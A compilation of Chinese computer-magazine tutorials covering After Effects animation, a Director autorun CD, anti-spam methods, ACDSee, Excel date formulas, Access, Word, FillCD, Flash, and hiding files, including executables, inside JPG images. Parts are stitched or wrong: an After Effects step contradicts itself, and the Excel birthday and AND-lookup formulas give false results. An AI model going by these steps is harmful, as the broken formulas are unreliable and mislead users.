第三步：将图层改名为“身体”，然后按快捷键L切换到套索工具（或者在工具箱中右击套索工具，选择其下的磁性套索工具），使用它将蝴蝶的左侧翅膀选取出来，然后按Ctrl + X键剪切，再按Ctrl + V键粘贴一下，蝴蝶的左翅膀便粘贴到新的图层中了，将新图层改名为“左翅膀”。以同样方法剪切粘贴蝴蝶的右翅膀到新的图层，并改名为“右翅膀”（见图2）。最后，将文件保存为“蝴蝶.psd”（PSD是Photoshop自身所独有的格式）。



最后再找一张合适的图片作为蝴蝶翩翩起舞的背景，保存文件为“背景.jpg”。至此，素材就准备好了。

# After Effects里面让蝴蝶飞起来

第一步：启动After Effects 6.5（以下简称为AE），按快捷键Ctrl + I打开文件导入对话框，将“背景.jpg”及“蝴蝶.psd”文件导入到项目窗口中。在导入“蝴蝶.psd”文件时，需在文件导入对话框的“Import As”选项中选择“Composition”项目，将此文件作为合成图像导入到AE的项目窗口中。在项目窗口中双击“蝴蝶Comp 1”项可以打开已经生成好的合成文件，此时，在下方的Timeline（时间线）窗口中可以看到，PSD文件里的图层已经整齐地排列好了。

第二步：为使下面的操作在合成图像窗口中看得更清楚，可以临时新建一个白色的“固态层”，等操作完毕后再将它删除。右击时间线窗口的空白处，在右键菜单中选择“New→Solid”，再在弹出的窗口中单击Color里面的颜色按钮，设置固态层颜色为白色，点击“OK”按钮即可。最后，在时间线窗口中将固态层拖放到最下方。

第三步：点选工具箱中的Pan Behind Tool（轴心点移动工具，快捷键为Y），双击时间线窗口中的“身体”层，然后将轴心点（即中间带叉的圆形）移动到身体的中央。以同样方法再分别将左、右翅膀层的轴心点移动到左、右翅膀的翅膀根处。

第四步：在时间线窗口的开关栏中，打开“身体”、“左翅膀”及“右翅膀”层对应的3D开关，将这三个层转化为三维对象。然后在时间线窗口的Parent（父子关系）面板中（如果在时间线窗口中看不见Parent面板，可以用鼠标右键单击时间线面板的设置栏，在弹出的菜单中选择“Columns→Parent”），分别将“左翅膀”层及“右翅膀”层设置为“身体”层的子对象（见图3）。



第五步：在时间线窗口中，选中“身体”层，按S键打开Scale（比例）参数栏，因为上一步我们打开了3D开关，所以在Scale的右侧可以看到三个参数，分别表示X、Y、Z三个轴，改变其比例值将蝴蝶调整为合适的大小。接着再用工具箱中的Selection Tool（选择工具，快捷键为V）及Rotation Tool（旋转工具，快捷键为W）将蝴蝶调整到如图4所示的位置，并旋转一定的角度。注意，一定要确保“身体”层为选中状态，否则移动时，左、右翅膀会与身体分离。三种颜色的箭头代表着X、Y、Z三个轴，拖动某轴，就会以该轴为中心旋转。对初学者来说，这一步是最不好操作的，一定要有耐心。



第六步：在时间线窗口中，选中“右翅膀”层，按R键打开Rotation（旋转）参数栏，单击打开Y Rotation左侧的“关键帧记录器”，并设置其参数为“+20度”，拖动时间指示器滑到20帧处（可随意设置），再设置其参数为“-20度”。这样，右翅膀就设置好了。然后用同样的方法设置左翅膀（注意，左翅膀的旋转方向应与右翅膀相反），让左右翅膀以相反的方向运动。最后，按下小键盘上的0键，就可以预览到蝴蝶翩翩起舞的动画效果了。

"+80度"，此时程序会在这里自动添加一个关键帧，这样蝴蝶右翅膀的一个舞动周期就设置好了。按Shift键不放开点击这两个关键帧全选它们，再按Ctrl + C键复制，然后每隔20帧处按Ctrl + V键粘贴一次，直至整个持续时间。以同样的方法设置“左翅膀”，这时需注意左翅膀Y Rotation的两个关键帧的角度应设置为“-20度”及“-80度”。这样，蝴蝶舞动翅膀的动画就设置完成了。

第七步：在时间线窗口中，按Shift键不放开点击，将“身体”、“左翅膀”及“右翅膀”层全部选中，按Ctrl + C键复制，再按Ctrl + V键粘贴出另一只会舞动翅膀的蝴蝶，选中新蝴蝶的“身体”层，将其拖放到合适的位置。

第八步：在时间线窗口中单击“身体”层左侧的小三角按钮，完全展开子菜单，单击Position（位置）及Orientation（方位）左侧的“关键帧记录器”同时打开它们，然后拖动时间指示器滑钮在不同的位置上，并分别用选择工具和旋转工具设置蝴蝶新的位置及运动方位。必要时在时间线窗口的空白处单击鼠标右键，在弹出的菜单中选择“Apply Workspace→Four Comp Views”，打开三维对象的俯视图（Top）、正视图（Front）及右视图（Right）进行相应的调整（见图5）。以同样的方法设置另一只蝴蝶的运动轨迹。

第九步：删除白色固态层，将项目窗口中的“背景.jpg”拖放到“时间线”窗口中，并使其位于所有层的最下方，为了增强背景层的景深效果，可打开该层的3D开关，调整其沿“Z轴”（垂直于屏幕的方向）的位置，并设置X Rotation（沿X轴的旋转角度）值为“-50度”。

第十步：至此，整个制作过程就结束了。AE专业版在“File→Export”子菜单中提供了多种命令，可以将上面制作的动画输出为AVI视频、MPEG-4电影、FIC动画，甚至是Flash动画（SWF）等格式。不过在导出Flash动画时要注意：在弹出的“SWF Settings”对话框中要把“Unsupported Features（兼容性设置）”选项设置为“Rasterize”（AE中的许多效果Flash都不支持，选择此项可将这些效果作为位图使用）。当然还可以生成GIF动画，可以选择以“图像序列”方式导出文件，然后在ImageReady中将“图像序列”以“帧”的方式导入（选择“File→Import→Folder as Frames”命令），最后，将其导出为“.GIF”格式的动画文件即可。



小编有话说：初学After Effects者一定要注意动画对象的XYZ三维轴的调整（光标移到轴线上时，会有字母提示），方位如果不对，动画的效果就可能跟设想的大相径庭。另外，初学者开始按实例步骤做下来后，效果不一定很好，要敢于多调整不同的参数，实践中会积累更多的动画制作经验。

（安徽 房鹏）

4. 设置好所有按钮变换后，再来为所有按钮添加交互功能。在库面板中，在Navigation类别下找到一个叫做Go to Frame X Button的行为，它可以在单击某一个对象的时候，跳转到另一个帧上继续播放。将Go to Frame X Button行为拖到剧本窗口上，放到Sprite 4中的1~19帧的“首页文字1a”角色上，这时会跳出一个行为设置窗口，询问我们要跳到哪一个帧上去播放，在这里设置它跳到第21帧，也就是跳到二级界面的第一页上去播放。以同样的方法设置其他的按钮，具体设置如下表：

| 位置 | 原角色名称 | 跳转到的帧 |
| --- | --- | --- |
| 首页 | 首页选项1a | 第21帧(第一页) |
| | 首页选项2a | 第41帧(第二页) |
| | 首页选项3a | 第61帧(第三页) |
| | 按钮1a | 第21帧(第一页) |
| | 按钮2a | 第41帧(第二页) |
| | 按钮3a | 第61帧(第三页) |
| 第一页 | 回首页按钮1 | 第1帧(首页) |
| 第二页 | 回首页按钮2 | 第1帧(首页) |
| 第三页 | 回首页按钮3 | 第1帧(首页) |

5. 接下来制作“离开按钮”。按Ctrl键不放并点击剧本窗口中的所有“离开按钮”角色选中它们，执行菜单“Window→Behavior Inspector”命令打开行为检查器面板，单击左上角的“+”号按钮，选择“New Behavior”，在打开的新建行为窗口上为新行为输入一个名称（如:Exit），确定后在行为检查器面板上会增加一个新行为Exit，右击它，从右键菜单中选择“Script”，在打开的脚本窗口内输入以下脚本代码：

```
on mouseDown me
  quit
End
```

这段代码的作用就是设置当鼠标单击“离开按钮”的时候，就退出当前正在播放的电影。

6. 最后我们来给光盘程序添加上优美的背景音乐。执行菜单“File→Import”命令打开导入对话框，导入素材文件夹中的“Sound1”、“Sound2”、“Sound3”。然后将它们由角色窗口拖到剧本窗口中的声音通道1中。声音的编排如下：

| 声音 | 帧范围 |
| --- | --- |
| Sound1 | 第1帧~第20帧 |
| Sound2 | 第21帧~第40帧 |
| Sound3 | 第41帧~第60帧 |
| Sound4 | 第61帧~第80帧 |

7. 至此，本例多媒体程序的框架就基本完成了，单击“Control→Play”（或者单击工具栏上的三角形播放按钮）运行程序，测试一下所有的链接设置是否正确。如果没有问题的话，可按Ctrl + S保存好文件。不过，要想在没有安装Director的电脑上也能运行我们制作的多媒体程序，还需要发布一下程序：执行菜单“File→Publish Settings”命令打开发布设置对话框，确保Formats选项卡中的Projector项被选中，点击Projector选项卡，选中其中的Full screen选项，这样发布的程序将全屏运行，显得更加专业。设置完毕，单击“OK”确定返回，最后再执行“File→Publish”（快捷键Ctrl + Shift + S），即可生成EXE可执行文件，并可以在其他电脑上顺利运行。

注意：如果多媒体光盘中还包括一些影音文件的话，我们就必须要检查一下Xtra插件。Director中有许多功能是要靠插件来运行的，比如显示某种字形、连接到网页等等。单击菜单“Modify→Movie→Xtras”命令打开Movie Xtras对话框，可以检查目前使用的插件。另外还要将影音文件同播放器放到一起，这样才能保证多媒体光盘的顺利播放。

### 第七步：制作自动执行的光盘

将《电脑爱好者》四季光盘放到光驱中，它就会自动运行，本示例程序当然也要具备这样的功能。在文本编辑器中输入以下信息：

```
[Autorun]
Open=四季光盘.exe
Icon=四季光盘.ico
```

然后将其保存为“Autorun.inf”文件，刻录光盘的时候，将这个INF文件放到光盘的根目录下即可。

通过Director制作多媒体光盘，是不是非常简单？而且效果也非常的酷！不过，本例的最终效果离真正的《电脑爱好者》四季光盘的制作水平还相差甚远，我们除了要进一步提高Director制作技术外，还要增强美术功底才行。

# 反垃圾邮件的常用武器是什么

目前，对于个人用户所采用的反垃圾邮件技术主要有两种：一种是基于规则库（Rule Base）判断，另一种是基于贝叶斯定理（Bayesian）的自学习方式。

所谓基于规则库判断技术就是针对垃圾邮件建立数百条甚至更多的规则特征。比如收件人超过十人、来源地址可疑、信件无主题等。每一规则都分配有正加权和负加权，然后为每一封被扫描的邮件计算总分数，如果总分数达到垃圾邮件的阈值则被判断为垃圾邮件。规则设置的好坏决定了基于规则库判断垃圾邮件的效率，由于规则由人来制定，基于规则库判断的方式显然不够灵活。

当前较为流行的反垃圾邮件技术是基于贝叶斯定理的自学习方式。首先厂商要收集大量的垃圾邮件以及非垃圾邮件的样本，并对信件的收信人、发信人、邮件主题、正文等进行严格的词法分析预处理操作。随后将分析出的数据交付贝叶斯算法库进行分类。贝叶斯算法会自动提取可被用于识别垃圾邮件或非垃圾邮件的特征。随着预处理的不同以及样本的差异每次贝叶斯算法分析结果是不同的，因此采用贝叶斯算法的反垃圾邮件产品需要不断升级以过滤更新的垃圾邮件。由于特征库的提取是由程序自动实现，因此采用贝叶斯算法的反垃圾邮件技术比传统的基于特征库判断技术更加灵活。

除了上面两种方式外，企业防范垃圾邮件还会采用一种叫作实时黑名单（RBL）的技术。实时黑名单的原理是，根据人工或机器的分析判断，检测一个IP地址是否是一个垃圾邮件源，从而将其列入黑名单中。用户的邮件服务器可以通过查询黑名单来决定是否接受来自该地址的邮件。

（瑞星工程师 史瑀）

# DC联于ACDSee 数码照片管理更轻松

## 实例1：导入照片 我不再“老土”了！

很多朋友拥有了数码相机（DC）。当你外出旅游归来，将“满载而归”的数码相机连入电脑后，是用什么方法把照片导入的？这里强烈建议使用ACDSee来导入照片，因为它太方便、太好用了！

第一步：在将数码相机的存储卡放入读卡器连入电脑前（如果是将数码相机直接连入电脑，方法一样），请先注意观察系统托盘中是否已经有了“ACDSee设备侦测器”（见图1），一般它会随着ACDSee一起启动。如果没有启动，可在“开始→程序→ACD Systems”中单击“ACDSee Device Detector 3.0”启动它。



第二步：将读卡器插入电脑的USB端口，稍等片刻，你会发现“ACDSee设备侦测器”已经由刚才的灰色变为绿色，同时弹出一个“设备同步向导”的窗口，在这里输入设备名称，比如“我的读卡器”。

第三步：这是关键一步。在这里你可以选择复制文件内容、目的地、命名规则和复制方式。建议按照图中方式设置（见图2）。

第四步：很讨厌那些不知所云的、冗长的照片序号吗？现在可以和它们说Bye Bye了！点一下图2中的“设置”按钮，在这里可以让ACDSee自动将图片改名，文件名可以包含很多信息，如时间、关键字、作者、图片大小等，都可以根据需要自动设定。至于照片文件夹的名称，也可以根据当天日期自动生成（见图3）。



照片文件夹的名称，也可以根据当天日期自动生成（见图3）。



第五步：点击“下一步”，软件开始自动将图片复制到刚才设定的目标文件夹，并弹出窗口询问是否将原始图片从读卡器或数码相机中删除，请根据自己的需要选择，然后按一下“确定”。

这样，在目标文件夹下就会生成一个“2005-3-1”这样形式的文件夹。假如你在5月1号有新的图片加入卡中，只要将读卡器插入电脑，后面的操作你就不必参与了，软件就会自动将图片复制到“2005-5-1”文件夹，而图片名称也按照你的要求自动修订了，是不是很方便？

## 实例2：手动更新也快捷

让设备侦测器总是即时监测，显得比较浪费系统资源，另外，如果读卡器中有新类型的存储卡插入，会被认为是新设备，监测器不会自动完成任务。这时，就需要使用手动获取功能了（利用它还可以获得来自扫描仪、新数码相机等设备中的照片）。

第一步：打开ACDSee，在主窗口工具栏按下“获取→从相机或内存卡读取器”，打开“获取向导”。如果是多功能读卡器，就会出现多个USB设备，选中有新照片的一项，按“下一步”。

第二步：新窗口中会显示所有新照片的预览图，勾选要复制的照片，进入下一步。后面的步骤和实例1中一致，这里就不再介绍了。

（北京 BORA）

# 一年中必须记住的MM的节日

故事：闷不乐的沙僧找到猪八戒：“二哥，恭喜你新婚大喜啊！你是用什么法子赢得二嫂的芳心？我MM现在对我很不满意呀。”八戒笑道：“一年中你可以有362天不浪漫，但在情人节、MM的生日、圣诞节这3天里必须给她制造点浪漫的气氛来。”八戒不愧是经理，说着说着就扯到公司业务上去了：“对待公司的客户就和追MM一样，重要节日里的一声问候往往能拉近公司与客户的感情……”“可是太忙，总记不住呀。”“没关系，Excel函数可以帮大忙。”

## 这一年，与MM有3个浪漫的约会

上期我们初识了IF的妙用，它是Excel逻辑函数之一，一般有三个参数，第一个是条件表达式，首先判断条件表达式是真是假，如果条件为真（TRUE）就执行第二个参数并结束IF函数；如果条件为假（FALSE），则跳过第二个参数，直接执行第三个参数并结束IF函数。因为IF函数可以根据条件判断以获得不同的结果，从而为公式增加智能判断的能力。本例中，将使用嵌套IF（即IF函数的参数里面再使用IF函数，最多可嵌套7层），完成更复杂的判断。

> IF小档案
语法：IF(logical_test, value_if_true, value_if_false)
说明：Logical_test，具有真假值的逻辑表达式，比如，“A10=100”就是一个逻辑表达式，如果单元格A10中的值等于100，则该表达式为真（TRUE），如果不等于100，则为假（FALSE）。当 logical_test 的值为真时，IF函数将返回 value_if_true 参数值；如果 logical_test 值为假，则IF函数返回 value_if_false 参数值。
应用举例：“=IF(A2<=100, "预算之内", "超出预算")”，如果单元格A2中的值小于等于100，则显示 “预算之内”，否则，显示 “超出预算”。除了数值外，IF函数的参数也可以是函数。逻辑表达式常用到的判断运算符有：=，等于；<，小于；>，大于；<=，小于等于；>=，大于等于；<>，不等于。

第一步：启动Excel，点选A1单元格，输入提示文字：“小秘书提醒您：”。接着选中B1:F1五个单元格，右击，选择 “设置单元格格式” 命令，在单元格格式对话框中点 “对齐”，再选中 “合并单元格”，确定后返回。合并单元格并非是必需的，主要是为了让B1单元格能显示出更多的信息。

第二步：点选合并后的B1单元格，输入以下公式：

```
=IF(AND(MONTH(NOW())=2,DAY(NOW())=14), "今天是情人节，别忘了送MM玫瑰哦！ ", IF(AND(MONTH(NOW())=6,DAY(NOW())=12), "今天是MM的生日，别忘了送玫瑰哦！ ", IF(AND(MONTH(NOW())=12,DAY(NOW())=25), "今天是圣诞节，别忘了送MM贺卡哦！ ", "今天没有约会。")))
```

这个表达式看起来太长，不容易理解它的思路，下面把它简化一下：
=IF(A,B,IF(C,D,IF(E,F,G)))

最外层的IF函数中（即第1个IF），MONTH()函数返回月份数，DAY()函数返回天数，这两个函数的参数中所使用的NOW()函数是用来自动获取当前系统的月份和天数的。逻辑表达式AND(MONTH(NOW())=2, DAY(NOW())=14)用来判断当前系统时间是否是2月14日，如果月份和天数都一致的话，即参数A为真，就可以判断当天是情人节了，此时将显示参数B的信息（即 “今天是情人节，别忘了送MM玫瑰哦！ ”）并结束整个IF函数的运算，如果月份或天数不相符，则跳到第3个参数上执行（该参数又是一个IF函数）。第2个IF函数的参数C用来判断当前的时间是否等于MM的生日（这里假设MM的生日是6月12日），如果相符则显示D信息，否则继续执行第3个IF。第3个IF的参数E用来判断是否为圣诞节（12月25日），如果是即显示F，否则显示G。

第三步：将文件保存到文件夹C:\Documents and Settings\当前用户名\Application Data\Microsoft\Excel\XLSTART中，每次启动Excel时，就会自动打开该文件，你就不用担心忘记MM的三大节日了。如图1所示，是在2月14日那天启动Excel时，自动显示出来的信息。



> AND()小档案
语法：AND(logical1, logical2, ...)
说明：Logical1, logical2, ...表示待检测的条件值，可以有30个，必须是逻辑值，非真（TRUE）即假（FALSE）。只有当所有的条件值都为真时，AND才返回真值，否则返回假值，如果指定的单元格区域内包括了非逻辑值，则返回错误值#VALUE!。
应用举例：本函数常用作IF函数的条件表达式，如：“=IF(AND(1<A3, A3<100), A3, "数值超出范围")”，只有当单元格A3符合两个条件时才会显示出来，否则显示 “数值超出范围”。

## 生日祝福，给客户送去一缕温馨

八戒用Excel做了一份客户报表，里面详细记载了所有客户的信息，包括客户们的出生年月日等。现在他想一打开报表就能显示出当天是否有客户生日，以便发送生日祝福，与客户保持感情联络。

如果要知道当天是否有客户生日，只要看看客户的出生年月日中月份和天数是否与当天一致，若相同，则为生日，否则就不是。因为客户的生日是不确定的，所以本例的条件表达式稍微改造了一下。

第一步：因为是示例，所以这里省略了客户名称一列，只假设在A1、B1单元格中的标题分别为 “出生日期” 和 “生日”。在A列输入所有客户的生日信息，单元格格式要选择 “日期” 类型（见图2）。


第二步：选取B2单元格，在其中输入以下公式，输入完后回车确定。

```
=IF(MONTH(A2)+DAY(A2)=MONTH(NOW())+DAY(NOW()), "Yes", "No")
```

这个函数公式的意思是：当客户日期中的月份与天数相加之和等于当天的月份与天数相加之和，则在B2中显示 "Yes"，表示是生日，否则显示 "No"。

第三步：若有一百个客户的出生日期被记载，就需要对应一百个计算公式，一个一个输入太麻烦了。因为每个计算公式都相同，所以可以使用填充柄快速进行复制。如图3所示，在B2中输入好计算公式后，按住该单元格右下角的填充柄向下拖动，拖动的行数与左侧 “出生日期” 的行数相同时放开鼠标键即可，拖选的所有单元格中被自动填充上公式。



第四步：为了方便查看，可全选所有已经计算好的结果，再打开 “格式” 菜单中的 “条件格式” 命令，在条件格式对话框中，设立条件为 “单元格数值”，逻辑运算为 “等于”，再单击最右侧的那个红箭头按钮，然后在结果为 "Yes" 的单元格上点击一下，按回车返回条件格式窗口。单击 “格式” 按钮为单元格设定一种背景颜色，最后依次单击 “确定” 保存退出（见图4）。这样一来，凡是内容为 "yes" 的单元格全部填充上背景色了，非常醒目。


保存好文件，以后只要打开该文件，Excel就会自动重算工作表中的所有公式，如果当天是某位（或多位）客户的生日，就会以 "Yes" 突出显示出来。快快发邮件、打电话或者快递一份小礼物去祝贺一下吧。

八戒是一个外憨内秀的人，不知他用Excel函数还能玩出什么花样来，请听下回分解。

## 一点通：

- ★巧用AND()函数查找数据
如果你想知道自己组数据中是否包含某个特定的数据，比如在人员列表中查找是否有某人，可输入类似下面的这个公式：
=IF(AND(B1=B3:B12), "有", "没找到")
这个公式会检查B3:B12中的每一个值，看它们之中是否有等于B1中的值。如果有，显示 "有"，否则显示 "没找到"。

- ★AND、OR和NOT
逻辑函数OR()与AND()的语法非常相似，不同之处在于，OR()函数中只要有一个参数值为真，该函数即返回真值。另一个逻辑函数NOT()则只有一个参数，参数值为真时，它返回假，参数值为假时它返回真。

- ★快速计算日期之差
看似简单的问题，回答起来并不容易，因为每个月并非固定不变的30天，而是有月大、月小、闰月等多种变数。不过在Excel里，这个问题很好解决：如果单元格A1和B1分别包含一个日期，则在其他单元格（如C1）输入公式：“=A1-B1”即可。注意A1和B1要设置成 "日期" 类型，C1要设置为 "常规" 类型。

- ★获取系统时间中的特定部分
实战1中，我们使用了MONTH()和DAY()两个日期函数，它们的参数都是NOW()，为什么会获得不同的数值呢？原来，NOW()返回的是完整的日期数值，而MONTH()只提取其中的月份数，DAY()只提取其中的天数。另外还有一个函数YEAR()，它只提取年份数，正是基于YEAR()函数的这种特性，通过下面的公式可以快速算出一个人的实际年龄大小（假设在A1中输入某人的出生年月日）：
=YEAR(TODAY())-YEAR(A1)

擂台台：西游后记之Excel函数系列，在每篇的最后都会设立一些比赛试题，欢迎各位登台打擂。优胜者（擂主及第二、三名）将会得到《电脑爱好者》杂志社发送的特别奖品哦！

- ★日期不固定的节日计算
有些节日的日期是不固定的，比如每年的母亲节定为五月份的第二个星期天，但到底是五月几号就不固定了。大家可以设计一种算法，快速计算出日期不固定的节日来。

- ★打造自己的万年历
网上可以找到不少用Excel制作的万年历，不过都不够精美，功能也很单一。大家可以参考一些现有的实例，再加上自己独特的创意元素，一定能制作出更好看更专业的万年历来。

## 乾坤大挪移 海量数据里面找不同

在工作中使用Excel，如果开始的时候工作表设计得不合理，会给以后工作带来许多麻烦。在某公司人事部门上班的亦菲就遇到了这种难题：公司有200多名职工，所有名单都保存在工作表Sheet1里面，有一次需要统一收取某种款项，亦菲就在工作表Sheet2中随时登记来交费的职工名称，但到后来她发现，这样很难查找出哪些人还没有交纳费用。名单越长越难找，工作效率低下不说，还容易出错。幸好同事晓风通过在Excel和Access中进行“乾坤大挪移”，轻松解决了这一问题。

第一步：假设上面亦菲建立的Excel文件名为“qy.xls”，其中工作表Sheet1中保存着所有职工名单，工作表Sheet2中输入的是已交费的职工名单。确保两个工作表中的第一行都输入了“姓名”，以作为该字段的名称。

第二步：启动Access，新建一个名为“qiuyi.mdb”的空白数据库。执行“文件→获取外部数据→导入”命令打开导入对话框，“文件类型”选择“Microsoft Excel(*.xls)”，找到前面保存的Excel文件后，单击“导入”按钮启动向导，如图所示，选择导入工作表“Sheet1”，然后连续单击“下一步”，即可将它导入到Access中，数据表会自动命名为“Sheet1”。以同样方法导入Excel表格中的Sheet2。

第三步：单击数据库窗口左侧的“查询”，再单击上面的“新建”按钮，弹出“新建查询”对话框，选中“查找不匹配项查询向导”，确定后即可打开该查询向导（如果没有安装该向导功能，Access将弹出提示，将Office安装光盘放入光驱后确定即可）。

- 1. 在向导第一步“请确定在查询结果中会有哪张表或查询中的记录”中选择表sheet1；
- 2. 在向导第二步“请确定哪张表或查询包含相关记录”中选择表sheet2；
- 3. 在向导第三步中选匹配字段时，两表中均选中“姓名”项，即“姓名一姓名”；
- 4. 在向导第四步中，单击“>>”按钮同时选中所有字段。
- 5. 指定查询名称，默认为“Sheet1 与 Sheet2 不匹配”，你可以改成其他的名称，如“未交费职工名单”。
- 6. 最后单击“完成”，生成查询，打开此查询就是所要找的数据了，所有未交费的人员名单一目了然。

> > 小编有话说：本文虽然是为解决因工作表设计不合理而造成的数据混乱问题，但它所提供的查找相异数据的方法，为在实际工作中解决其他一些问题提供了一个很好思路。
（晓风吹叶）

## 别人的修改看得明明白白

把修改好的合同文本，修改的稿件或批阅的报告返回给原作者，是否想让对方清楚你在哪些地方作了修改？使用 Word 修订功能可以轻松达到这个目的。

第一步：在Word中打开需要修改的文档，双击Word底部状态栏上的“修订”按钮，使其由灰色变为黑色。如图所示，此时对文档进行编辑修改，删除的内容会自动移到文档右侧，用红色方框圈了起来，并通过红线指示该删除内容原来的位置。如果是新增的文字，则以红色字体显示出来，使其一目了然。修改好之后保存文档，并把它发回给原作者。

第二步：原作者收到修订稿后，可以先浏览一下，对于确定要删除的内容，可右击红框，选择“接收删除”，这时该红框及其中相应内容将自动删除掉。当然，也可以选择“拒绝删除”来恢复被删除的内容。

第三步：打印文档时，如果想把修订的内容一起打印出来，可在打印对话框的“打印内容”下拉列表中选择“显示标记的文档”项，反之，选择“文档”项即可。

- ★双击激活Word的修订功能后，工具栏上会自动显示出一行“审阅”按钮（也可右击工具栏，选择“审阅”将其调出），通过它可以对修订内容进行各种操作，如：显示或隐藏修改内容，只显示某个特定者的批注，设置修订显示的格式，接受或拒绝修订，插入批注等。
- ★执行“工具→文档保护”命令，可以为修订或批注的内容设置密码保护，以防止别人审阅修订或批注的内容。

（北京 小强）

## 批量刻录也省心

在刻录光盘时我们总要计算一下如何才能充分利用盘片，但手工计算是件麻烦事，最近我发现了一款适合懒人的软件，它可以完成以前麻烦的计算并能帮你把那些文件移动到某个指定目录。的确让我的备份工作省心不少。它就是今天的主角FillCD。

- **FillCD小档案**
  - 软件版本: 2.0
  - 软件大小: 1023KB
  - 软件性质: 免费软件
  - 适用平台: Windows 9x/2000/XP
  - 下载地址: http://nj.onlinedown.net/soft/13932.htm

第一步：打开软件后，首先要做的是设定一下盘片类型和大小，比如700MB标准的CD-R光盘。点击左上的“Settings”区域。在Predefined右面的下拉框选择“700MB CD (80min)”就可以了。
如果下拉框没有需要的容量，可以在size of 后面填入需要的大小后并选择单位即可。支持的单位有KB、MB和bytes。

第二步：设定好容量后，可以开始添加资料了。点击“Directories and Files”栏下的“Open Explorer...”按钮打开“资源管理器”，这时只需把要刻录的文件拖拽到“Directories and Files”区域即可。如果想删除列表中已经添加的文件，只需右击要删除的文件，在弹出菜单中选择“Remove”即可，如果要全部删除，点击区域中的“Clear All”按钮即可。

第三步：一切都准备完毕，点击界面中的“Compute!”按钮后。“Results”栏中就会显示分配好的文件。在下方文本框中输入一个路径，点击“move”按钮，我们的文件就被移动到目的路径了。这时打开刻录软件就能刻录了。

（山东 日月双星）

## Flash MX 裁图有妙招

你是否发现在 Flash MX 中导入位图图片时，虽然可以用任意变形工具(快捷键为Q)随意放大、缩小、旋转，但却不能裁剪图片？本文将教你一招，不但能在Flash MX裁图，而且还能裁出花样来。

- 第一步：启动Flash MX 2004，新建一个空白的Flash文档。按住工具箱中的矩形工具不放，选择其下的“多角星形工具”，再在属性面板中单击“选项”按钮，在弹出的工具设置对话框中将样式设置成“多边形”，边数设置为6，确定后返回主界面，用多边形工具在舞台中央画一个大的六边形。
  曾经有读者朋友在CFan论坛上反映：Flash MX版中没有多边形工具。找不到这个工具也没关系，你可以用矩形、椭圆、铅笔等工具画出任意的形状，同样能顺利完成本例的制作。

第二步：执行“文件→导入→导入到库”命令，选择需要裁剪的图片导入。

第三步：选中黑箭头选择工具(快捷键为V)，用它点击选中刚刚画好的六边形。然后展开右侧的颜色面板，单击喷桶图标右侧的填充方式下拉按钮，选择“位图”项，再点击下面的图像缩略图。看看，填充进去的图片是不是被裁剪为六边形了。

第四步：还可以用部分选取工具(快捷键为A)拖动六边形，调整它的位置，就能截取填充图形的不同部分了。如图所示，是笔者使用本例方法制作的其他形状的截图，效果还不错吧？

- **小提示**
  必须按照上面的步骤顺序进行，才能达到裁剪的效果。如果你先设置了位图填充方式再画多边形的话，产生的将是平铺背景效果。

（福建 郑清娇）

## 作个007 文件藏进照片里

个人隐私越来越重要，许多人都希望将自己的秘密很好地隐藏起来，虽然目前有不少优秀的文件隐藏软件，但往往价格不菲或操作麻烦，今天我们为大家介绍如何将文件隐藏到照片文件中，让人神不知鬼不觉。完全就是“隐形墨水”的效果。

## 007入门级隐藏教材

### 1.最简单的Copy

任务：将mm.txt隐藏至照片中

所需工具：JPG文件一张，如Me.JPG

点击“开始→运行”，输入CMD，回车后进入“命令行提示符”窗口，接着输入：copy Me.jpg/b + mm.txt/a New.jpg即可。

> 小提示
> ★其中参数/b指定以二进制格式复制、合并文件；参数/a指定以ASCII格式复制、合并文件。这里要注意文件顺序，二进制格式的文件应放在加号前，文本格式的文件放在加号后。有一要点要提醒大家：就是这个文本文件的前面最好空上3行以上，这样它头部的内容就不会丢失。
> ★按住Shift键右击Me.JPG，选择“打开方式”并选择EmEditor之类的文本编辑器打开该文件，看到什么了？一堆乱码？但如果按下Ctrl + End组合键将光标移至文件的尾部，是不是mm.txt文件中的内容？

### 2.用WinRAR藏文件

任务：将Rmm.txt隐藏至照片中

所需工具：WinRAR、JPG文件一张，如Me.JPG

第一步：选中Me.jpg及Rmm.txt，右击后，选择“添加到压缩文件”。
第二步：在“压缩方式”下选择“存储”。
第三步：压缩后，选中压缩包文件后按F2键，将扩展名从RAR修改为JPG即可。
以后别人看到的是一张图片，但只要将文件名改回RAR，双击打开即可看到你的Rmm.txt文件了。

## 007 高级照片隐藏术

照片文件一直是用来掩饰文件秘密的最佳软件，我们用它可以隐藏各种各样的文件。

### 1.照片里面藏文件

任务：将Readme.txt、Cool.exe、Cool.dll三个文件隐藏至照片中。

所需工具：WinRAR、UltraEdit、任意较大尺寸、较小体积JPG图片一张，将其命名为Me.jpg

第一步：用WinRAR将隐藏的Readme.txt、Cool.exe、Cool.dll三个文件进行压缩，可以使用除自解压文件之外的任意方法对文件压缩，包括添加密码、使用“最好”的“压缩方式”等，得到压缩包Cool.rar。
第二步：用UltraEdit打开Cool.rar，按Ctrl + A组合键，选中全部数据，接着再按Ctrl + C组合键复制文件。
第三步：用UltraEdit打开Me.JPG，移动至文件最后，按Ctrl + V组合键，将刚刚复制的数据粘贴（见图1）。
第四步：保存该文件，退出UltraEdit，将Me.jpg改名为Me.tif，以便掩饰文件变大的问题。
在日常使用时，双击Me.tif只能看到图片，但当其扩展名改为RAR后，就可以将里面的数据解压缩了。

### 小提示

与入门级隐藏术里的WinRAR方法相比，这个方法适合同时保护多个文件，还支持WinRAR密码功能。

### 2.照片里面有“声音”

任务：将某人一段重要讲话隐藏到照片中。
所需工具：ACDSee、照片Me.JPG

第一步：用ACDSee打开照片，切换至浏览模式，选中要添加音频的照片。
第二步：选择菜单中的“工具→图像音频→编辑”，打开“编辑音频”窗口。
第三步：点击“录制”按钮，然后通过麦克风就可以完成录制。
第四步：点击“确定→是”，完成音频添加。

以后只要选中照片，就可以通过菜单项中的“工具→图像音频→播放”，来播放录制的音频文件了。
其实，这个功能也不一定非要用于隐藏文件，当你出游回来，整理照片时，也可以用此方法为每张照片添加好声音旁白。另外，现在已经有不少数码相机，已经具有直接添加声音的功能，在拍照的同时就能轻松添加旁白了。

### 3.照片里面藏“影片”

任务：将mm.wmv隐藏到图片中
所需工具：Love Machine、尺寸较小的GIF图片若干张、Love Machine外挂插件程序

第一步：从 http://www.newhua.com/cfan/200515/007.zip 下载Love Machine，并解压缩。
从 http://www.newhua.com/cfan/200515/Reswrite.zip 下载Love Machine外挂插件程序，并解压缩。

